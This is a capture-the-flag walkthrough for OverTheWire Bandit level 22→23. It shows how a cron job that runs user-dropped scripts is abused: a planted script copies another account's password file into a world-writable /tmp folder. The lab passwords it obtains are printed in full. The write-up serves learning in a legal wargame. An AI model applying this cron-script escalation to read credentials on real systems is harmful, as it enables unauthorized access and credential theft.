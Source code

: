# Bandit Level 22 → Level 23

## Previous Flag
<b>0Zf11ioIjMVN551jX3CmStKLYqjk54Ga</b>

## Goal
Use previous password to log in SSH with user <b>bandit23</b> on port <b>2220</b>. A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in <b>/etc/cron.d/</b> for the configuration and see what command is being executed.

NOTE: This level requires you to <b>create your own first shell-script</b>
NOTE: Your shell <b>script is removed once executed</b>, so you may want to keep a copy around …

## What I learned
```
mktemp -d:                  not work due to restrictions set by sysAdmin
/var/spool/$myname/foo      folder where script deletes bandit24
/tmp/                       no access, exploit w/ creating subfolder
deeper understanding of cron
```

## Solution
```
@trungdullc ➜ /workspaces/01noobHacker (main) $ ssh bandit23@bandit.labs.overthewire.org -p 2220
bandit23@bandit:/etc/cron.d$ ls
behemoth4_cleanup  cronjob_bandit22  cronjob_bandit24  leviathan5_cleanup    otw-tmp-dir
clean_tmp          cronjob_bandit23  e2scrub_all       manpage3_resetpw_job  sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ mkdir /tmp/everyoneaccess && chmod 777 /tmp/everyoneaccess
bandit23@bandit:/etc/cron.d$ vi /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ cat /tmp/everyoneaccess/main.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/everyoneaccess/pass.txt
bandit23@bandit:/etc/cron.d$ ls -la  /tmp/everyoneaccess/main.sh
-rw-rw-r-- 1 bandit23 bandit23 178 Aug  1 22:54 /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ chmod +x /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ ls -la  /tmp/everyoneaccess/main.sh
-rwxrwxr-x 1 bandit23 bandit23 178 Aug  1 22:54 /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ cp /tmp/everyoneaccess/main.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/everyoneaccess$ cat pass.txt                               # Wait 1 min
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

## Flag
<b>gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8</b>

## Continue
[Continue](/overthewire/2324.md)
